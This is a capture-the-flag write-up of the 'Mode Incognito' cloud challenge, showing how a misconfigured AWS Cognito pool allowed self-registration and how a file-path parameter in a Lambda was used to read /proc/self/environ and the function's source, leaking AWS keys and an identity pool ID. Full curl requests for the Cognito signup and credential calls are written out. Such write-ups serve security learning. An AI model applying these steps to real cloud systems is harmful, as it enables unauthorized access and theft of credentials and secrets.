










# Mode Incognito
Mode Incognito was a hard cloud challenge in the Nahamcon EU 2022 CTF where you had to exploit misconfigured AWS Cognito and an LFI to get AWS keys and read the flag from Secrets Manager. I made it a ways through this challenge but got stuck towards the end and wasn't able to complete it until after the CTF ended.

## Auth Bypass
The challenge starts with a login page.



Viewing the source reveals that the app uses Amazon Cognito to authenticate users and get a bearer token. It then uses the user's token to call a Lambda function with a path to a config file.



After doing some research on attacks against Cognito I came across the following article which explains an attack against a misconfigured Cognito login. The article described a situation like the challenge where there was a login page but no option on the site to signup, however Cognito was misconfigured to allow accounts to be created directly with the AWS API utilizing the information exposed in the target websites source.
https://notsosecure.com/hacking-aws-cognito-misconfigurations

Following the steps outlined in the article I was able to register and verify a new user. I used the AWS REST API, but I think the AWS CLI would have also worked.





### Curl Commands
Signup
```
curl --request POST \
  --url https://cognito-idp.us-east-1.amazonaws.com/ \
  --header 'accept: */*' \
  --header 'accept-language: en-US,en;q=0.9' \
  --header 'authority: cognito-idp.us-east-1.amazonaws.com' \
  --header 'content-type: application/x-amz-json-1.1' \
  --header 'origin: https://ctfincognito.s3.amazonaws.com' \
  --header 'referer: https://ctfincognito.s3.amazonaws.com/' \
  --header 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"' \
  --header 'sec-ch-ua-mobile: ?0' \
  --header 'sec-ch-ua-platform: "Windows"' \
  --header 'sec-fetch-dest: empty' \
  --header 'sec-fetch-mode: cors' \
  --header 'sec-fetch-site: cross-site' \
  --header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36' \
  --header 'x-amz-content-sha256: dfbb3ffd1cb5446686f79d8d49f59f6d754249f37aff6d6e66e1626b93d9c09a' \
  --header 'x-amz-target: AWSCognitoIdentityProviderService.SignUp' \
  --header 'x-amz-user-agent: aws-sdk-js/2.726.0 callback' \
  --data '{"ClientId":"11rcg1djsb6ka6ni21aml29kue","Username":"example@example.email","Password":"**********","UserAttributes":[{"Name":"email","Value":"example@example.email"},{"Name":"name","Value":"0mgfriday"}]}'
```
Confirm New User
```
curl --request POST \
  --url https://cognito-idp.us-east-1.amazonaws.com/ \
  --header 'accept: */*' \
  --header 'accept-language: en-US,en;q=0.9' \
  --header 'authority: cognito-idp.us-east-1.amazonaws.com' \
  --header 'content-type: application/x-amz-json-1.1' \
  --header 'origin: https://ctfincognito.s3.amazonaws.com' \
  --header 'referer: https://ctfincognito.s3.amazonaws.com/' \
  --header 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"' \
  --header 'sec-ch-ua-mobile: ?0' \
  --header 'sec-ch-ua-platform: "Windows"' \
  --header 'sec-fetch-dest: empty' \
  --header 'sec-fetch-mode: cors' \
  --header 'sec-fetch-site: cross-site' \
  --header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36' \
  --header 'x-amz-content-sha256: dfbb3ffd1cb5446686f79d8d49f59f6d754249f37aff6d6e66e1626b93d9c09a' \
  --header 'x-amz-target: AWSCognitoIdentityProviderService.ConfirmSignUp' \
  --header 'x-amz-user-agent: aws-sdk-js/2.726.0 callback' \
  --data '{"ClientId":"11rcg1djsb6ka6ni21aml29kue","Username":"example@example.email","ConfirmationCode":"787453"}'
```

Now I was able to login to the challenge site with my newly created user and retrieve the Cognito config which simply contained the ARN of a Lambda.



## Getting Stuck
My inital thought was this was the ARN of a different Lambda that I had to invoke to get the flag but in order to invoke it I needed AWS keys. I wanted to try using my Cognito login to get keys using [GetCredentialsForIdentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetCredentialsForIdentity.html) but it required the IdentityId of my user which I didn't have. I found a [GetId](https://docs.aws.amazon.com/cli/latest/reference/cognito-identity/get-id.html) API call that would give me my IdentityId but it required the Cognito IdentityPoolId which I also didn't have. I found an IdentityPoolId in a javascript file used by the challenge site but using it just returned errors saying the pool didn't exist so I think it was just an example id.

The next thing I looked at was the call from the site to `lambda_function` which took a config parameter which looked like a file path. I discovered this could be used to read arbitrary files and used it to dump the Lambda's environment variables by reading `/proc/self/environ`.

The environment variables exposed the AWS creds for the Lambda (Access Key, Secret Key, and Session Token) as well as the task root.

I tried using the creds from the environment variables to do things in AWS CLI but it became apparent that the creds had no permissions and were useless.

## Getting the Flag
After being stuck for while I got a tip to try reading the Lambda functions source code. From the `AWS_EXECUTION_ENV` environment variable I could see that the Lambda was written in python and I guessed the code would be in the task root found in the environment variable `LAMBDA_TASK_ROOT`. I looked up the AWS documentation for deploying a Python Lambda and the filename used in their example command was `lambda_function.py` so I gave that a try. It worked and I got the source code.


Lo and behold in the code was the IdentityPoolId I needed to get AWS keys for my Cognito user. There was also code to retrieve a secret from Secrets Manager which seemed to be the flag. Using the pool id I was able to call `GetId` to get my user's IdentityId and then use that to call `GetCredentialsForIdentity` and get AWS keys for my user. The `Logins` key cognito-idp.us-east-1.amazonaws.com/us-east-1_4rMMxVEiL is the provider name which can can be found in your Cognito JWT in the issuer field.



### Curl Commands
GetId
```
curl --request POST \
  --url https://cognito-identity.us-east-1.amazonaws.com/ \
  --header 'accept: */*' \
  --header 'accept-language: en-US,en;q=0.9' \
  --header 'authority: cognito-identity.us-east-1.amazonaws.com' \
  --header 'content-type: application/x-amz-json-1.1' \
  --header 'origin: https://ctfincognito.s3.amazonaws.com' \
  --header 'referer: https://ctfincognito.s3.amazonaws.com/' \
  --header 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"' \
  --header 'sec-ch-ua-mobile: ?0' \
  --header 'sec-ch-ua-platform: "Windows"' \
  --header 'sec-fetch-dest: empty' \
  --header 'sec-fetch-mode: cors' \
  --header 'sec-fetch-site: cross-site' \
  --header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36' \
  --header 'x-amz-content-sha256: dfbb3ffd1cb5446686f79d8d49f59f6d754249f37aff6d6e66e1626b93d9c09a' \
  --header 'x-amz-target: AWSCognitoIdentityService.GetId' \
  --header 'x-amz-user-agent: aws-sdk-js/2.726.0 callback' \
  --data '{"IdentityPoolId":"us-east-1:176cdd96-9db6-437f-9a56-124c2e9de439","Logins":{"cognito-idp.us-east-1.amazonaws.com/us-east-1_4rMMxVEiL":"BEARER_TOKEN"}}'
```
GetCredentialsForIdentity
```
curl --request POST \
  --url https://cognito-identity.us-east-1.amazonaws.com/ \
  --header 'accept: */*' \
  --header 'accept-language: en-US,en;q=0.9' \
  --header 'content-type: application/x-amz-json-1.1' \
  --header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36' \
  --header 'x-amz-content-sha256: dfbb3ffd1cb5446686f79d8d49f59f6d754249f37aff6d6e66e1626b93d9c09a' \
  --header 'x-amz-target: AWSCognitoIdentityService.GetCredentialsForIdentity' \
  --header 'x-amz-user-agent: aws-sdk-js/2.726.0 callback' \
  --data '{"Logins":{"cognito-idp.us-east-1.amazonaws.com/us-east-1_4rMMxVEiL":"BEARER_TOKEN"},"IdentityId":"us-east-1:19043020-e100-0000-0000-000000000000"}'
```

After that I used my keys with the AWS CLI to read the flag from SecretsManager.

